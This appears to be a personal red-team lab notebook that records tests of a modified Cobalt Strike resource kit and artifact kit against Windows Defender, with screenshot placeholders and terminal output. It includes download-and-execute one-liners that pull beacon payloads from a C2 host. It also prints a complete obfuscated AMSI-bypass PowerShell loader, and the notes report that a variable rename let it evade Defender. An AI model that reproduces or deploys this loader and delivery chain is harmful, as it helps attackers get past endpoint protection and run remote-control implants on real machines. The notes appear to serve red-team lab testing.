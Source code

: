 ### Resource kit & Artifact kit testing ( Defender ON - Should not Bypass Defender)
starting `arsenal-kit-mod.py` with `AV Bypass Disabled`
![[Pasted image 20250408212216.png]]
making sure  defender is on
![[Pasted image 20250408212644.png]]
started up cobalt strike
![[Pasted image 20250408213103.png]]
starting up listener
![[Pasted image 20250408213140.png]]
generating payloads in `/home/kali/malware`
![[Pasted image 20250408213231.png]]
testing `resource kit` first
![[Pasted image 20250408213319.png]]
using this payload to attempt to execute `iex(iwr http://192.168.127.129/a -useb)` - got caught
![[Pasted image 20250408213416.png]]
turning off `defender` to make sure that the beacon does work.
![[Pasted image 20250408213453.png]]
now was able to catch the beacon with  defender off so it does indeed work properly
![[Pasted image 20250408215302.png]]
![[Pasted image 20250408215317.png]]
now going to test artifact kit - reverting `guardian VM` making sure defender is on

![[Pasted image 20250408220738.png]]
hosting file on cobalt strike at `/test`
![[Pasted image 20250408220821.png]]
going to place on desktop to see if it gets eaten - which it should
```bash
wget http://192.168.127.129:80/test -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe" 
```
defender caught it
![[Pasted image 20250408220953.png]]
and it ate it
![[Pasted image 20250408221003.png]]
now turning off defender to see if the beacon still works.
![[Pasted image 20250408221029.png]]
worked to pull over
![[Pasted image 20250408221048.png]]
now  double clicking to see if we get the beacon
![[Pasted image 20250408221113.png]]

-------

### Resource kit & Artifact kit testing ( Defender ON - Should Bypass Defender)

reverted guardian, making sure defender is on
![[Pasted image 20250408221827.png]]
clearing cobalt strike data
![[Pasted image 20250408222127.png]]
running `arsenal-kit-mod.py` with option `2` to `enable AV Bypass`
![[Pasted image 20250408222340.png]]
starting up cobalt strike server
![[Pasted image 20250408222708.png]]generating listener and `http payloads`
![[Pasted image 20250408222842.png]]![[Pasted image 20250408222905.png]]
attempting `resource kit` bypass , this should not get caught `iex(iwr http://192.168.127.129/a -useb)` again defender is on
![[Pasted image 20250408223206.png]]
this did get caught lets try reloading the `aggressor script`
![[Pasted image 20250408223241.png]]
reloaded
![[Pasted image 20250408223300.png]]still got caught
![[Pasted image 20250408223324.png]]
lets check to make sure the `compress.ps1` was properly changed
![[Pasted image 20250408223423.png]]
looks correct to me, lets look at what the no shit version looks like

`compress.ps1` from [[7. compress.ps1 - resource kit - OPTEV-RT Modification]]
the `sha256sum` matches the one with issues, lets try copying the `4.10` working version and rerun the script
![[Pasted image 20250408223604.png]]
tried copying and pasting this but the `sha256sum` is different, still going to try it
Saving a VM screenshot and pulling `compress.ps1` from the `Before moving the tested 4.11 cobaltstrike to /opt/cobaltstrike` screenshot and saving to my `SSD` `e4f60766bc71fefacc039f45c7f60a3eba5b3d4a00fdd241b5626c908aee9747  compress.ps1`
pulled over the `compress.ps1` with my `SSD` and going to test
![[Pasted image 20250409160841.png]]
put the previously working `compress.ps1` in the `resource_kit_bypass` directory
![[Pasted image 20250409161110.png]]
shutting down `cobaltstrike` and going to rebuild using `arsenal-kit-mod.py` with the new `compress.ps1` files
![[Pasted image 20250409161401.png]]
rerunning the `script`
![[Pasted image 20250409161554.png]]
starting up the `cobaltstrike` server again
![[Pasted image 20250409161426.png]]
starting `listener` and `web hosted delivery` at `/a`
![[Pasted image 20250409161659.png]]
making sure `defender` is on
![[Pasted image 20250409161832.png]]
`iex(iwr http://192.168.127.129/a -useb)` payload to use
- it got caught,
![[Pasted image 20250409161908.png]]
going to `unload` and`reload` the cobaltstrike script
![[Pasted image 20250409162045.png]]
and `restart cobalt strike server` and `restart the listener `and `rehost the file`
still got caught
![[Pasted image 20250409162258.png]]
changing the `thegreatest` variable to `hellogoodbye` allowed it to bypass `defender`
```bash
┌──(root💀gobots)-[09Apr2025 21:14:42]-[/opt/…/kits/artifact/artifact-kit-AV-switcher/resource_kit_bypass]
└─# cat compress.ps1                  
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1);$hellogoodbye=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($hellogoodbye,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```
sha256sum
```
┌──(root💀gobots)-[09Apr2025 21:14:46]-[/opt/…/kits/artifact/artifact-kit-AV-switcher/resource_kit_bypass]
└─# sha256sum compress.ps1
860510593614cdeb568fd82706c5db4ea7b5c46fb3c1973256fe4dbeaa32205c  compress.ps1
```
`resourcekit` works good to bypass defender, here we can see `defender is on` and the beacon is running
![[Pasted image 20250409180733.png]]proof beacon is running
![[Pasted image 20250409180753.png]]
#### Now testing the artifact kit bypass

hosting file at `/artifact`
![[Pasted image 20250409180937.png]]
`wget http://192.168.127.129:80/artifact -UseBasicP -OutFile "C:\Users\blaster\Desktop\artifacttest.exe"` to pull over file

was able to pull over to `desktop`
![[Pasted image 20250409181335.png]]
lets see if we can execute it by double clicking

![[Pasted image 20250409181358.png]]
able to catch beacon and it didnt get caught by defender
![[Pasted image 20250409181420.png]]